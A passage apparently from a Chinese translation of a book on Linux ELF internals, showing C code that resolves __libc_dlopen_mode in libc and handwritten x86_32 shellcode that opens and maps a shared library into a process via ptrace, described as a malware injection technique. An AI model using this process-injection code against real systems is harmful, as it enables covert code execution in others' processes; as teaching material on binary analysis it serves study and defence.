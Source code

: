 ```sh
        if (libcp == MAP_FAILED) {
                perror("mmap libc");
                exit(-1);
        }

        symaddr = resolve_symbol((char *)name, libcp);
        if (symaddr == 0) {
                printf("[!] resolve_symbol failed for symbol '%s'\n", name);
                printf("Try using --manual-elf-loading option\n");
                exit(-1);
        }
        symaddr = symaddr + globals.libc_addr;

        DBG_MSG("[DEBUG]-> get_sym_from_libc() addr of __libc_dl_*: %lx\n", symaddr);
        return symaddr;

}
```

为了进一步揭开共享库注入的神秘，让我向您展示一种更简单的技术:使用`ptrace`注入的 shell 代码将共享库`open()/mmap()`注入到进程地址空间。 这种技术使用起来很好，但它需要恶意软件手动处理所有重定位的热补丁。 `__libc_dlopen_mode()`函数在动态链接器本身的帮助下透明地处理所有这些，因此从长远来看实际上更容易。

### 代码示例- x86_32 shellcode mmap()一个 ET_DYN 对象

下面的shellcode 可以被注入到一个给定进程的可执行段中，然后使用`ptrace`执行。

请注意，这是我第二次在书中使用这个手写的 shell 代码作为示例。 我在 2008 年为一个 32 位 Linux 系统编写了它，作为示例使用它很方便。 否则，我肯定会写一些新的东西来演示在 x86_64 Linux 中更现代的方法:

```sh
_start:
        jmp B
A:

        # fd = open("libtest.so.1.0", O_RDONLY);

        xorl %ecx, %ecx
        movb $5, %al
        popl %ebx
        xorl %ecx, %ecx
        int $0x80

        subl $24, %esp

        # mmap(0, 8192, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_SHARED, fd, 0);

        xorl %edx, %edx
        movl %edx, (%esp)
        movl $8192,4(%esp)
        movl $7, 8(%esp)
        movl $2, 12(%esp)
        movl %eax,16(%esp)
        movl %edx, 20(%esp)
        movl $90, %eax
        movl %esp, %ebx
        int $0x80

        # the int3 will pass control back the tracer
        int3
B:
        call A
        .string "/lib/libtest.so.1.0"
```
